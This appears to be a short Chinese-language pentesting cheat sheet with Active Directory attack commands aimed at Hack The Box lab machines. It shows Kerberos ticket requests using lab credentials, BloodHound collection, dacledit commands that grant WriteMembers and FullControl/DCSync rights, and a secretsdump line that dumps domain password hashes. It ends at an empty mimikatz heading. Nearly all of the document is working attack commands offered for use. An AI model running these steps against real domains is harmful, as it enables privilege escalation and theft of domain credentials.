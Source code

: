#### bloodhound.py-kerberos


```
git clone https://github.com/jazzpizazz/BloodHound.py-Kerberos

sudo ntpdate -s 10.10.11.181

python3 ../impacket/examples/getTGT.py absolute.htb/m.lovegod:'AbsoluteLDAP2022!' -dc-ip 10.10.11.181

export KRB5CCNAME=./m.lovegod.ccache

python3 BloodHound.py-Kerberos/bloodhound.py -u m.lovegod -k -d absolute.htb -dc dc.absolute.htb -ns 10.10.11.181 --dns-tcp --zip -c All -no-pass
```


## Impacket工具包：


```
dacl的连接：
https://github.com/ShutdownRepo/impacket/tree/dacledit

域外添加账户权限，kerberos情况下：

同步时间：
sudo ntpdate -s 10.10.11.181
申请票据：
python3 impacket-dacledit/examples/getTGT.py absolute.htb/m.lovegod:'AbsoluteLDAP2022!' -dc-ip 10.10.11.181
添加环境变量：
export KRB5CCNAME=m.lovegod.ccache
使用：

python3 impacket-dacledit/examples/dacledit.py -action 'write' -rights 'WriteMembers' -principal 'm.lovegod' -target-dn 'CN=NETWORK AUDIT,CN=USERS,DC=ABSOLUTE,DC=HTB' -k -no-pass -u absolute.htb/m.lovegod -dc-ip 10.10.11.181
Impacket v0.12.0.dev1+20240116.639.82267d84 - Copyright 2021 SecureAuth Corporation


域外添加DCSYNC权限：
python dacledit.py -action 'write' -rights 'FullControl' -principal 'cxk' -target-dn 'DC=HTB,DC=LOCAL' 'HTB.LOCAL'/'cxk':'cxk123!' -dc-ip 10.10.10.161

DCSYNC获取hash:
python secretsdump.py HTB.LOCAL/cxk:'cxk123!'@10.10.10.161

```

## mimikatz
